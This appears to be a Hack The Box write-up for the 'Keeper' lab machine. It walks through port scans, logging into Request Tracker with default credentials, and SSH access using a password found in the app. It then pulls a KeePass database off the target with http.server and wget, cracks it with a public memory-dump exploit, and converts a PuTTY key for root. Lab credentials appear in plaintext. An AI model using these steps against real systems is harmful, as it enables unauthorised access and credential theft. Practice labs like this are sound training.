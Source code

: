 # [Keeper](https://app.hackthebox.com/machines/keeper)

```bash
nmap -p- --min-rate 5000 10.10.11.227 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.227
```

![alt text](img/image-1.png)


Let's browse web application for finding anything as interesting.

![alt text](img/image-2.png)


From here, I see that I need to add `keeper.htb` and `tickets.keeper.htb` domain names into `/etc/hosts` file for resolving purposes.


While browsing `tickets.keeper.htb`, I see some login page as below.

![alt text](img/image-3.png)


That's some `CMS` style application, let's search default credentials for `RT` software.

![alt text](img/image-4.png)


Hola! This default credentials `root: password` worked for our target.

![alt text](img/image-5.png)


As this user is `root` user, that's why we have privilege to access sensitive information of user. On description section, I see password of this user.

![alt text](img/image-6.png)


lnorgaard: Welcome2023!

Let's login into machine via `ssh`.
```bash
ssh lnorgaard@keeper.htb
```


user.txt

![alt text](img/image-7.png)


As you see, there's interesting file called `RT30000.zip`, we need to extract data from here.

Let's extract via `unzip` command.

![alt text](img/image-8.png)


From here, I download `passcodes.kdbx` file into my machine.

1.First, I open http.server .
```bash
python3 -m http.server --bind 10.10.11.227 8080
```

![alt text](img/image-9.png)

2.Then download this file via `wget` command.
```bash
wget http://10.10.11.227:8080/passcodes.kdbx
```
![alt text](img/image-10.png)


I tried this [exploit](https://github.com/z-jxy/keepass_dump) for `KeePass` that, I can know password of this file and read all content from here.

Let's use this exploit.

```bash
python3 keepass_dump.py -f KeePassDumpFull.dmp
```

From here, I got `dgrd med flde` string and search meaning of this on Google.

![alt text](img/image-11.png)


I take really password as `rødgrød med fløde` and look this file via `kpcli` command.
```bash
kpcli --kdb /home/kali/Desktop/passcode.kdbx
```

![alt text](img/image-12.png)


From here I got credentials of `root` user

root: F4><3K0nd!

For reading this file content, I use online `.kdbx` [file editor](https://app.keeweb.info/) means to see content clearly via `GUI`.

![alt text](img/image-13.png)

But I need to get `key file` for `OpenSSH` to login into machine, but it is `Putty`.

**Note**: `keygen.ppk` file is thing I got from `Notes` section and I write type of key file as `private-openssh` and output is saved into `id_rsa` file.

```bash
puttygen keygen.ppk -O private-openssh -o id_rsa
```

![alt text](img/image-14.png)


Let's do `600` privilege for `id_rsa` file and login into machine.
```bash
chmod 600 id_rsa
ssh -i id_rsa keeper.htb
```

root.txt

![alt text](img/image-15.png)